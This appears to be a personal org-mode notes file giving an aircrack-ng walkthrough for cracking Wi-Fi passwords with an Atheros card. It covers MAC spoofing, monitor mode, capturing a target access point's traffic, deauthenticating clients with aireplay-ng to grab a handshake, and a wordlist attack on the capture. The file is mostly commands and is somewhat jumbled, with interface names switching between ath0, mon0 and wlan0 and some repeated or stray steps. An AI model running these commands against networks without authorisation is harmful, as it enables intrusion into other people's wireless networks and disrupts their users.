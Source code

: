 #+STARTUP: content
#+OPTIONS: num:nil
#+OPTIONS: author:nil

* aircrack-ng
 
How to get the atheros card to work:
 
+ first disable the interface using:

#+BEGIN_SRC sh
airmon-ng stop ath0
ifconfig wifi0 down
macchanger --mac 00:11:22:33:44:55 wifi0
#+END_SRC

** enable the interface in monitor

#+BEGIN_SRC sh
airmon-ng start wifi0
#+END_SRC

*** find your network

#+BEGIN_SRC sh
airodump-ng ath0
#+END_SRC

[You should get a response like the following, and then push control-C once you see the network you want:

#+BEGIN_SRC sh
CH 11 ][ Elapsed: 1 min ][ 2007-12-26 22:37
BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

00:15:A0:01:C1:05 13 37 0 0 6 54 WEP WEP linksys]
#+END_SRC

+ stop the atheros interface using:

#+BEGIN_SRC sh
ifconfig ath0 down
#+END_SRC

reconfigure the atheros interface to the channel (CH = 6) and rate (MB = 54) used by the target AP (essid = linksys, BSSID = 00:15:A0:01:C1:05) that you found in step 3:

#+BEGIN_SRC sh
iwconfig ath0 rate 54M channel 6
#+END_SRC

+ start the atheros interface using the new settings:

#+BEGIN_SRC sh
ifconfig ath0 up
#+END_SRC

+ record the signals from the AP (-w is the filename for saving the information, -b is the target bssid):

#+BEGIN_SRC sh
# airodump-ng -w linksys_data -b 00:15:A0:01:C1:05 -c 6 ath0
#+END_SRC

get data faster by running aireplay-ng attacks then use aircrack-ng to get the password.

#+BEGIN_SRC sh
ath0 set up
#+END_SRC

In order to get the modem into monitor mode we must first get rid of all the managed mode VAPs.

#+BEGIN_SRC sh
iwconfig
#+END_SRC

You will see your card as ath0 in manged mode. In order to stop that VAP we must use a utility call wlanconfig.

#+BEGIN_SRC sh
wlanconfig ath0 destroy
#+END_SRC

Now if run iwconfig you should not see your ath0 VAP anymore. Now we have to create a new VAP in monitor mode. Here's how:

#+BEGIN_SRC sh
wlanconfig ath0 create wlandev wifi0 wlanmode monitor
#+END_SRC

Now when you run iwconfig you should see your ath0 VAP in monitor mode.

Now to make sure ath0 is 'UP' (as explained in the previous post)

#+BEGIN_SRC sh
ifconfig mon0 up
#+END_SRC

***  put card into monitor mode

#+BEGIN_SRC sh
airmon-ng stop wlan0
#+END_SRC

#+BEGIN_SRC sh
airmon-ng start wlan0 (channel number)
#+END_SRC

for example
 
#+BEGIN_SRC sh
airmon-ng start wlan0 11
#+END_SRC
 
+ for channel 11

#+BEGIN_SRC sh
airodump-ng -c 11 --bssid (bssid) -w psk ath0
#+END_SRC

for example

#+BEGIN_SRC sh
airodump-ng -c 11 --bssid 00:18:4d:3a:fe:e8 -w psk ath0
#+END_SRC

*** de authenticate 

#+BEGIN_SRC sh
aireplay-ng -0 5 -a ( access point bssid ) -c (client bssid ) ath0
#+END_SRC

+  word list

#+BEGIN_SRC sh
aircrack-ng -w word.lst -b (access point)  psk*.cap
#+END_SRC
